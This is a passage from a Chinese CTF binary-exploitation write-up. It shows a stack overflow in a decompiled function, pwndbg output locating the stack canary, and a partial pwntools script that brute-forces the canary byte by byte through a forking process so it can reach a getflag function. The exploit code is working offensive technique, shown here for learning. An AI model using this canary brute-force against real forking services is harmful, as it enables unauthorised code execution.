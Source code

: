 ```
  puts("fork error");
  exit(0);
}
```

查看fun函数：

```
int fun()
{
  char buf; // [sp+8h] [bp-70h]@1
  int v2; // [sp+6Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  read(0, &buf, 0x78u);            //栈溢出漏洞
  return *MK_FP(__GS__, 20) ^ v2;
}
```

根据程序分析可以得到buf的大小为100

思路：看到程序开启了Canary和NX，然后程序中又有fork函数，可以利用爆破Canary来解决问题

gdb调试查看一下Canary的值：

```
pwndbg> stack 50
00:0000│ esp 0xffffcf20 ◂— 0x0
01:0004│     0xffffcf24 —▸ 0xffffcf38 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
02:0008│     0xffffcf28 ◂— 0x78 /* 'x' */
03:000c│     0xffffcf2c —▸ 0xf7e45013 (_IO_file_overflow+275) ◂— add    esp, 0x10
04:0010│     0xffffcf30 —▸ 0xf7fb2d20 (_IO_2_1_stdout_) ◂— 0xfbad2887
05:0014│     0xffffcf34 —▸ 0xf7fb2d67 (_IO_2_1_stdout_+71) ◂— 0xfb3f880a
06:0018│ ecx 0xffffcf38 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
... ↓        23 skipped
1e:0078│     0xffffcf98 ◂— 'aaa\n'
1f:007c│     0xffffcf9c ◂— 0xaddaf400        //Canary
20:0080│     0xffffcfa0 —▸ 0x8048863 ◂— 0x636c6577 /* 'welcome' */
21:0084│     0xffffcfa4 —▸ 0xf7fb2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
```

继续运行，再次输入发现里面的Canary的值没有发生改变，这正是**通过 fork 函数创建的子进程的 Canary 与父进程是相同**

编写exp：

```
# -*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./bin1')
e = ELF('./bin1')

p.recvuntil('welcome\n')
canary = '\x00'

for i in range(3):
    for i in range(256):
        p.send('a'*100+canary+chr(i))
        message = p.recvuntil('welcome\n')
        if 'recv' in message:
            canary+=chr(i)
            break

getflag_addr = e.sym['getflag']
```